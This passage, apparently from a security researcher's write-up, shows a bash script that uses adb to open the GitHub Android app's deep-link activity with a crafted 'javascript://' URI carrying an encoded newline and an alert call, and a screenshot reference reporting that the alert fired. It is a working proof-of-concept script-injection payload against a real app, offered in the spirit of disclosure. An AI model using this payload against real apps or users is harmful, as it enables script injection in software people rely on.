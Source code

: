
```bash
#!/bin/bash

path="$(printf '%s' 'javascript://github.com/%0aalert\(\"mzfr\"\)')"

adb shell am start -a android.intent.action.VIEW -n com.github.android/.activities.DeepLinkActivity -d $path
```

And we got ourselves an alert:

![alert](/images/pop.png)
